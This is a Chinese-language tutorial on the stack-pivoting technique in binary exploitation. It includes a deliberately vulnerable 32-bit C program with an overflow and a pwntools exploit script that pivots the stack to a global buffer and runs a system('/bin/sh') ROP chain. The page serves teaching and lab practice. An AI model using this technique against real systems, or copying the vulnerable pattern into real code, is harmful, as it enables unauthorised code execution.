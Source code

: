 ```yaml
---
title: "栈迁移"
description: ""
lead: ""
date: 2023-06-01T21:17:56+08:00
lastmod: 2023-06-01T21:17:56+08:00
draft: false
images: []
menu:
  docs:
    parent: ""
    identifier: "stack_pivoting-28d6785c5956b294688cec7ec2408a70"
weight: 5
toc: true
---
```


## 0x01 介绍

很多时候由于溢出栈字节不够多，不能构造完整的payload，这时候就需要用到stack pivoting技巧来完成操作。它的核心理念在于如果我们在某个内存中可以输入完整的payload，那么我们就可以用该技巧将当前栈顶指针修改指向这段内存，然后通过一些指令来执行这段内存里的payload。

最常见的指令是`leave;ret`指令。leave是相对于函数序言的相反操作，函数序言的操作为

```cpp
 push ebp
 mov ebp, esp
```

将上一个函数栈帧的栈底指针压入到栈中，然后在将当前esp赋值给ebp即设置当前栈帧的栈底指针。leave的操作刚好相反，先将当前ebp赋值给esp，在弹出当前栈顶即恢复上一个函数栈帧的栈底指针，相当于以下指令

```cpp
 mov esp, ebp
 pop ebp
```

如果我们在溢出的是否覆盖了保存在栈里的上一个栈帧的栈底指针，通过leave指令就会将这个值保存到了ebp里，如果这时候再次执行leave指令，则会将ebp中保存的修改后的指针赋值给esp，也就是将当前栈顶指针迁移到了我们覆盖的地址+一个栈单元处。

![38e74847529c7bb77305089dad130632](images/38e74847529c7bb77305089dad130632.png) 加一个栈单元的原因是leave会在esp转移过去后先pop一个栈单元到ebp中。如果我们在指定的地址+一个栈单元处填了ROP链，那么迁移过去后执行ret指令就会开始执行ROP链。以一个例子来说

```cpp
 #include <stdio.h>
 #include <stdlib.h>
 #include <unistd.h>
 char data[0x1000] = {0};// 防止其他函数操作覆盖到got之类的数据
 char p[0x20];
 ​
 void hint() {
     system("echo flag");
 }
 ​
 void run() {
     char buf[0x10];
     read(0, buf, 0x20);
     read(0, p, 0x20);
 }
 ​
 int main() {
     run();
     return 0;
 }
 // gcc stack_pivoting.c -o stack_pivoting -m32 -fno-stack-protector -no-pie
```

第一次输入虽然是栈溢出，但是它只能覆盖到函数返回地址，而且程序只有system函数，还需要自己构造`/bin/sh`字符串，第二次输入是往全局变量里写入字符串，我们可以将`/bin/sh`写入到里面并同时构造`system("/bin/sh")`的ROP链，它的结构可以为

![79afcb7258bc9b580d6c8be32b5bdd74](images/79afcb7258bc9b580d6c8be32b5bdd74.png)

`/bin/sh\x00`在末尾的目的是为了防止在解析system函数实际地址的时候被覆盖掉导致无法执行 我们通过栈溢出覆盖上一个栈帧的栈底指针为这里的system@plt-4的位置，然后将函数返回地址覆盖为leave指令的地址，最后执行完两次leave后esp就迁移到了system@plt的位置，这时候再执行ret指令，就会执行`system("/bin/sh")`的ROP链了。我们可以写出攻击脚本为

```python
 from pwn import*
 context.log_level = 'debug'
 o = process("./stack_pivoting")
 system_plt = 0x8048310
 p = 0x804b040
 leave_ret = 0x8048482
 payload = b'a'*0x18 + p32(p-4) + p32(leave_ret)
 o.send(payload)
 payload = p32(system_plt) + p32(p+12)*2 + b"/bin/sh\x00"
 o.sendline(payload)
 o.interactive()
```

![7d263d36c1630a0ce955c35cbb7c90e6](images/7d263d36c1630a0ce955c35cbb7c90e6.png)  

栈迁移除了可以迁移到bss，还可以迁移到很多地方，只要你有地址就可以尝试迁移，比如栈或者堆
